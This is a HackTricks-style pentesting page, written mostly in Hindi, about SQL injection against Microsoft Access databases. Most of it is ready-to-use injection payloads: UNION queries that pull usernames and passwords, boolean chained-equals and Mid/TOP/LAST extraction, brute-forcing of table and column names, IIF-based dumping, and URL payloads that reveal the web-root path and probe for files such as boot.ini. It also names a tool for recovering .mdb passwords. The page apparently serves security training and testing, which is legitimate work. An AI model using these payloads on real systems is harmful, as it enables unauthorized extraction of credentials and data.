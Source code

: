 # MS Access SQL Injection

{{#include ../../banners/hacktricks-training.md}}

## Online Playground

- [https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format&ss=-1)

## DB Limitations

### String Concatenation

स्ट्रिंग संयोजन `& (%26)` और `+ (%2b)` अक्षरों के साथ संभव है।
```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```
### टिप्पणियाँ

MS Access में कोई टिप्पणियाँ नहीं हैं, लेकिन स्पष्ट रूप से एक NULL कैरेक्टर के साथ एक क्वेरी के अंतिम को हटाना संभव है:
```sql
1' union select 1,2 from table%00
```
यदि यह काम नहीं कर रहा है, तो आप हमेशा क्वेरी की सिंटैक्स को ठीक कर सकते हैं:
```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```
### Stacked Queries

वे समर्थित नहीं हैं।

### LIMIT

**`LIMIT`** ऑपरेटर **कार्यान्वित नहीं है**। हालाँकि, SELECT क्वेरी परिणामों को **पहले N तालिका पंक्तियों तक सीमित करना संभव है `TOP` ऑपरेटर का उपयोग करके**। `TOP` एक पूर्णांक को तर्क के रूप में स्वीकार करता है, जो लौटाई जाने वाली पंक्तियों की संख्या का प्रतिनिधित्व करता है।
```sql
1' UNION SELECT TOP 3 attr FROM table%00
```
जैसे TOP, आप **`LAST`** का उपयोग कर सकते हैं जो **अंत से पंक्तियाँ प्राप्त करेगा**।

## UNION Queries/Sub queries

SQLi में, आप आमतौर पर किसी न किसी तरह से एक नया क्वेरी निष्पादित करना चाहेंगे ताकि अन्य तालिकाओं से जानकारी निकाली जा सके। MS Access हमेशा यह आवश्यक करता है कि **उप-प्रश्नों या अतिरिक्त प्रश्नों में `FROM` को इंगित किया जाए**।\
तो, यदि आप `UNION SELECT` या `UNION ALL SELECT` या एक शर्त में कोष्ठक के बीच `SELECT` निष्पादित करना चाहते हैं, तो आपको हमेशा **एक मान्य तालिका नाम के साथ `FROM` को इंगित करने की आवश्यकता होती है**।\
इसलिए, आपको एक **मान्य तालिका नाम** जानने की आवश्यकता है।
```sql
-1' UNION SELECT username,password from users%00
```
### Chaining equals + Substring

> [!WARNING]
> यह आपको वर्तमान तालिका के मानों को निकालने की अनुमति देगा बिना तालिका के नाम को जाने।

**MS Access** अजीब **सिंटैक्स** की अनुमति देता है जैसे **`'1'=2='3'='asd'=false`**। जैसा कि आमतौर पर SQL injection एक **`WHERE`** क्लॉज के अंदर होगा, हम इसका दुरुपयोग कर सकते हैं।

कल्पना करें कि आपके पास एक MS Access डेटाबेस में SQLi है और आप जानते हैं (या अनुमान लगाते हैं) कि एक **कॉलम का नाम username** है, और यही वह फ़ील्ड है जिसे आप **exfiltrate** करना चाहते हैं। आप चेनिंग इक्वल्स तकनीक का उपयोग करते समय वेब ऐप की विभिन्न प्रतिक्रियाओं की जांच कर सकते हैं और संभावित रूप से **`Mid`** फ़ंक्शन का उपयोग करके सबस्ट्रिंग प्राप्त करने के लिए **boolean injection** के साथ सामग्री निकाल सकते हैं।
```sql
'=(Mid(username,1,3)='adm')='
```
यदि आप **तालिका का नाम** और **कॉलम** जानते हैं जिसे डंप करना है, तो आप `Mid`, `LAST` और `TOP` के बीच एक संयोजन का उपयोग कर सकते हैं ताकि **सभी जानकारी लीक** की जा सके बूलियन SQLi के माध्यम से:
```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```
_इसका ऑनलाइन प्लेग्राउंड में जांचने के लिए स्वतंत्र महसूस करें।_

### टेबल नामों का ब्रूट-फोर्सिंग

चेनिंग इक्वल्स तकनीक का उपयोग करके आप कुछ इस तरह से **टेबल नामों का ब्रूट-फोर्स** भी कर सकते हैं:
```sql
'=(select+top+1+'lala'+from+<table_name>)='
```
आप एक अधिक पारंपरिक तरीका भी उपयोग कर सकते हैं:
```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```
_इसे ऑनलाइन प्लेग्राउंड में जांचने के लिए स्वतंत्र महसूस करें।_

- Sqlmap सामान्य तालिका नाम: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
- [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html) में एक और सूची है

### ब्रूट-फोर्सिंग कॉलम नाम

आप **चेनिंग बराबर ट्रिक** के साथ वर्तमान कॉलम नामों को **ब्रूट-फोर्स** कर सकते हैं:
```sql
'=column_name='
```
या **group by** के साथ:
```sql
-1' GROUP BY column_name%00
```
या आप **अलग तालिका** के कॉलम नामों को ब्रूट-फोर्स कर सकते हैं:
```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```
### डेटा डंप करना

हमने पहले ही [**चेनिंग इक्वल्स तकनीक**](ms-access-sql-injection.md#chaining-equals-+-substring) **से वर्तमान और अन्य तालिकाओं से डेटा डंप करने** पर चर्चा की है। लेकिन अन्य तरीके भी हैं:
```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```
संक्षेप में, क्वेरी एक "if-then" कथन का उपयोग करती है ताकि सफलता की स्थिति में "200 OK" या अन्यथा "500 Internal Error" को ट्रिगर किया जा सके। TOP 10 ऑपरेटर का लाभ उठाते हुए, पहले दस परिणामों का चयन करना संभव है। LAST का बाद में उपयोग केवल 10वें ट्यूपल पर विचार करने की अनुमति देता है। ऐसे मान पर, MID ऑपरेटर का उपयोग करके, एक सरल वर्ण तुलना करना संभव है। MID और TOP के इंडेक्स को सही ढंग से बदलकर, हम सभी पंक्तियों के "username" फ़ील्ड की सामग्री को डंप कर सकते हैं।

### Time Based

Check [https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](<https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN>)

### Other Interesting functions

- `Mid('admin',1,1)` स्थिति 1 से लंबाई 1 का उपस्ट्रिंग प्राप्त करें (प्रारंभिक स्थिति 1 है)
- `LEN('1234')` स्ट्रिंग की लंबाई प्राप्त करें
- `ASC('A')` वर्ण का ASCII मान प्राप्त करें
- `CHR(65)` ASCII मान से स्ट्रिंग प्राप्त करें
- `IIF(1=1,'a','b')` यदि तब
- `COUNT(*)` आइटम की संख्या गिनें

## Enumerating tables

From [**here**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) you can see a query to get tables names:
```sql
select MSysObjects.name
from MSysObjects
where
MSysObjects.type In (1,4,6)
and MSysObjects.name not like '~*'
and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
हालांकि, ध्यान दें कि SQL इनजेक्शन पाना बहुत सामान्य है जहाँ आपके पास **`MSysObjects`** तालिका को पढ़ने का एक्सेस नहीं है।

## फ़ाइल सिस्टम एक्सेस

### वेब रूट डायरेक्टरी का पूर्ण पथ

**वेब रूट का पूर्ण पथ जानने से आगे के हमलों में मदद मिल सकती है**। यदि एप्लिकेशन की त्रुटियाँ पूरी तरह से छिपी नहीं हैं, तो एक गैर-मौजूद डेटाबेस से डेटा चुनने की कोशिश करते समय डायरेक्टरी पथ का पता लगाया जा सकता है।

`http://localhost/script.asp?id=1'+'+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access एक **त्रुटि संदेश के साथ प्रतिक्रिया करता है जिसमें वेब डायरेक्टरी का पूर्ण पथ होता है**।

### फ़ाइल सूचीकरण

निम्नलिखित हमलावर वेक्टर का उपयोग **दूरस्थ फ़ाइल सिस्टम पर एक फ़ाइल के अस्तित्व का अनुमान लगाने के लिए किया जा सकता है**। यदि निर्दिष्ट फ़ाइल मौजूद है, तो MS Access एक त्रुटि संदेश उत्पन्न करता है जो सूचित करता है कि डेटाबेस प्रारूप अमान्य है:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

फ़ाइलों को सूचीबद्ध करने का एक और तरीका **एक डेटाबेस.तालिका आइटम को निर्दिष्ट करना** है। **यदि** निर्दिष्ट **फ़ाइल मौजूद है**, तो MS Access एक **डेटाबेस प्रारूप त्रुटि संदेश** प्रदर्शित करता है।

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb फ़ाइल नाम अनुमान लगाना

**डेटाबेस फ़ाइल नाम (.mdb)** को निम्नलिखित क्वेरी के साथ अनुमान लगाया जा सकता है:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

जहाँ **name\[i] एक .mdb फ़ाइल नाम** है और **realTable डेटाबेस के भीतर एक मौजूदा तालिका है**। हालांकि MS Access हमेशा एक त्रुटि संदेश उत्पन्न करेगा, लेकिन अमान्य फ़ाइल नाम और मान्य .mdb फ़ाइल नाम के बीच अंतर करना संभव है।

### .mdb पासवर्ड क्रैकर

[**Access PassView**](https://www.nirsoft.net/utils/accesspv.html) एक मुफ्त उपयोगिता है जिसका उपयोग Microsoft Access 95/97/2000/XP या Jet Database Engine 3.0/4.0 का मुख्य डेटाबेस पासवर्ड पुनर्प्राप्त करने के लिए किया जा सकता है।

## संदर्भ

- [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

{{#include ../../banners/hacktricks-training.md}}
